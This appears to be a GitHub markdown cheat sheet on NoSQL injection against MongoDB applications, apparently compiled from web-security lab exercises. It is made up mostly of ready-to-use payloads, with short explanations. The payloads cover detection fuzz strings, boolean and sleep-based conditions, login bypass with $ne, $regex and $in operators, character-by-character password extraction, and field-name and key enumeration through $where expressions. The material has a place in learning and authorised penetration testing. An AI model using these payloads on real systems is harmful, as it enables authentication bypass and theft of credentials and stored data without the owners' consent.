 ### Basic operator difference between SQLi && NoSQLi
  1. `or` >> `||`
  2. `and` >> `&&`
  3. `-- -` >> `%00`
---
### Detecting NoSQLi Vulnerability
**For MongoDB Detection:**
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
**Causing syntax error in MongoDB**
```
'
```
**Escaping the syntax error in MongoDB**
```
\'
```
**Injecting in JSON Format**
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```
**Others :**
```
'+%26%26+1%3d%3d1%00
'+||+1%3d%3d1%00
'||1||'
'\"`{\r%3b$Foo}\n$Foo+\\xYZ\u0000
{"$where": "sleep(5000)"}
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
### Confirming conditional behavior
```
' && 0 && 'x
' && 1 && 'x
' || 1 || 'x
'||'1'=='1
'%00
```
**Example with explanation :**

  1. ```category=Gifts' && 0 && 'x``` >> This will return no items like ```category=Gifts' and 1=0-- -``` in sql injection.
  2. ```category=Gifts' && 1 && 'x``` >> This will return Gift items like ```category=Gifts' and 1=1-- -``` in sql injection.
  3. ```category=Gifts' || 1 || 'x``` >> This will return all the items like ```category=Gifts' or 1=1-- -``` in sql injection.
  4. Same as 3.
### NoSQL operator injection

`$where` - Matches documents that satisfy a JavaScript expression.
<br>
`$ne` - Matches all values that are not equal to a specified value.
<br>
`$in` - Matches all of the values specified in an array.
<br>
`$regex` - Selects documents where values match a specified regular expression.

### Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
<br>
<br>
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`.
<br>
<br>
If this doesn't work, you can try the following:
<br>
<br>
  `1.` Convert the request method from `GET` to `POST`.
  <br>
  `2.` Change the `Content-Type` header to `application/json`.
  <br>
  `3.` Add `JSON` to the `message body`.
  <br>
  `4.` Inject `query` operators in the `JSON`.
### MongoDB Login Bypass
```
{"$regex":"wien.*"} >> For username
{"$ne":"Invalid"} >> For password
{"$in":["admin","administrator","superadmin"]} >> For bruteforce
```
![Screenshot from 2024-07-12 03-55-31](https://github.com/user-attachments/assets/18902009-c2d8-4162-b5d8-7ebb221fd49e)
<br>
Note: We need to input atleast one valid credential to make a valid query.
<br>
If this doesn't work, you can try the following:

    1. Convert the request method from GET to POST.
    2. Change the Content-Type header to application/json.
    3. Add JSON to the message body.
    4. Inject query operators in the JSON.
# MongoDB Data Retrieving
Extracting Password:
```
' && this.password.length < 50%00 >> For extracting password length in URL
' && this.password[0] == 'a'%00 >> For extracting password in URL
{"username":"admin","password":{"$regex":"^a*"}} >> For extracting password via operator
```
### Identifying field names
```
' && this.anything && 'a'=='b >> Confirming if there is a field name
' && this.username!=' >> Identifying field names [Note: If there is a username field exists, it will response with different type of message]
' && this['u'] && 'a'=='b >> Retrieving field name character by character
' && this.u.s.e.r.n.a.m['e'] && 'a'=='b
```
# Operator Injection To Retrieving Unknown Data
```
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"e"} >> To generate an server error.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"} >> To generate a false statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"1"}} >> To generate a true statement.
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}.*')"}}
{"username":{"$regex":"admin"},"password":{"$ne":"Invalid"},"$where":"0"}  >>  {"username":{"$regex":"admin"},"password":{"$ne":"Invalid","$where":"Object.keys(this)[0].match('^.{0}0.*')"}}

Object.keys(this)[0].match('^.{0}.*') >> To identify data size. Ex: Password
Object.keys(this)[0].match('^.{0}0.*') >> To fetch the data
this.forgotpwd.match('^.{0}.*') >> To fetch specific keyvalue data size.
this.forgotpwd.match('^.{0}0.*') >> To fetch specific keyvalue.

1st 0 means key number
2nd 0 means data size
3rd 0 means data character
For bruteforcing select only 2nd and 3rd 0
```
